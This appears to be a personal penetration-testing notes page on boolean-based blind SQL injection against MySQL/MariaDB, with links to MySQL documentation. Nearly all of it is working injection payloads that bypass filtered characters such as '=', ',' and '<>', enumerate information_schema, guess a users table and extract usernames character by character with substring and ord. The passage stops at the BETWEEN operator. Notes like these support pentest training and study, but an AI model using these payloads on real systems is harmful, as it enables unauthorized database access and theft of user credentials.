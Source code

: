 ### Boolean - bypass badchars

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash"># PRACTICE / PLAY WITH ALL OF THIS USING MARIADB/MYSQL IF WE NEED TROUBLESHOOTING
# Comparison Operators (try all in case some are badchars / blacklisted) -> at first we find out = is a badchar
https://dev.mysql.com/doc/refman/8.4/en/comparison-operators.html
ipp' or 1=1 -- -
ipp' or 1 like 1 -- -
ipp' or 1 like 2 -- -
ipp' or (select 1) like 1 -- -
# If following fails, it might mean _ is a badchar
' or (select schema_name from information_schema.schemata limit 1) like 1 -- -                                '
# Enumerate users column
' or (select 1 from table limit 1) like 1-- -                                                                  '
# We can fuzz "table" until we find it is users
' or (select 1 from users limit 1) like 1-- -																	'
# Once we guess the table name, we start guessing the column name by fuzzing or guessing
' or (select username from users limit 1) like 1-- -																	'
# Now we can start exfiltrating data
' or (select username from users limit 1,1) like 'ippsec'-- -																'
# If we find an error it means , is a badchar
https://dev.mysql.com/doc/refman/8.4/en/select.html
# limit 2,1 is the same as limit 1 offset 2 -> if result is 0 or valid, it means 1st register (1st column, 1st row) is ippsec
' or (select username from users limit 1 offset 0) like 'ippsec'-- - 												'
# Now since ippsec is an example and we really do not know what is the value, we need substring to iterate
https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_substr
' or (select substring(username,1,1) from users limit 1 offset 0) like 'i'-- -														'
# If above fails it is because we know , is a badchar
' or (select substring(username from 1 for 1) from users limit 1 offset 0) like 'i'-- -
' or (select substring(username from 2 for 1) from users limit 1 offset 0) like 'p'-- -
# To simplify the fact of using individual chars for comparisons, we convert them to decimal base
' or (select ord(substring(username from 2 for 1)) from users limit 1 offset 0) like 112-- - 								'
# Now we want to say &#x3C; 112 or > 112 but &#x3C;> are badchars
https://dev.mysql.com/doc/refman/8.4/en/comparison-operators.html#operator_between